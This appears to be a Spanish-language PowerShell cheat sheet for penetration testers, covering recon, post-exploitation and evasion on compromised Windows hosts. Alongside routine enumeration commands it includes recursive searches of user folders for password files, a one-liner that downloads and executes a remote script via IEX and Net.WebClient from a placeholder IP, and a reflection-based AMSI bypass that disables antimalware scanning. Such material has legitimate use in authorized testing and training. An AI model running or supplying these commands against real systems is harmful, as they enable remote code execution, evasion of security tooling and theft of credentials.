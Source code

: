 # 🛠️ PowerShell for Pentesters

Comandos útiles en PowerShell para tareas de reconocimiento, post-explotación, evasión y búsqueda de información sensible en sistemas Windows comprometidos.

---

## 📋 Ver servicios

```powershell
Get-Service | ForEach-Object { $_.Name }

```

📍 Ubicaciones de los servicios ejecutados

```powershell
Get-WmiObject -Class win32_service | Format-List *

Get-WmiObject -Class win32_service | Sort-Object -Property PathName -Unique | Format-List PathName
```

🧠 Listar procesos únicos

```powershell
Get-Process | Sort-Object -Property ProcessName -Unique
```

👤 Enumeración de usuarios

```powershell
whoami
whoami /all
Get-WmiObject -Class Win32_ComputerSystem | Select-Object UserName
Get-LocalUser
net user
```

🛡️ Grupos y privilegios

```powershell
net localgroup administrators
```

🌐 Enumeración de red

```powershell
Get-NetAdapter | Format-Table
Get-NetIPAddress | Format-Table
Get-NetRoute
Get-NetTCPConnection | Where-Object { $_.State -eq "Established" }
```

🖥️ Información del sistema

```powershell
Get-WmiObject -Class Win32_OperatingSystem
Get-WmiObject -Class Win32_ComputerSystem
Get-ChildItem Env:
```

🔍 Buscar archivos sensibles por contenido

```powershell
Select-String -Path "C:\\Users\\*\\Documents\\*.txt" -Pattern "password"

Get-ChildItem -Path "C:\\Users" -Recurse -Include *.txt -ErrorAction SilentlyContinue |
Select-String -Pattern "password"
```

🗂️ Buscar archivos sensibles por nombre

```powershell
Get-ChildItem -Path "C:\\Users" -Recurse -ErrorAction SilentlyContinue -Force |
Where-Object { $_.Name -match "password|contraseña" }

Get-ChildItem -Path "C:\\Users" -Recurse -Include *password*,*passwords*,*contraseña* -File -ErrorAction SilentlyContinue
```

📅 Persistencia

```powershell
Get-ScheduledTask | Select-Object TaskName, TaskPath, State
Get-ChildItem -Path "C:\\Users\\*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```

🔧 Descarga y ejecución remota de scripts

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://<IP>/script.ps1")
```


🧱 Bypass de restricciones

```powershell

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
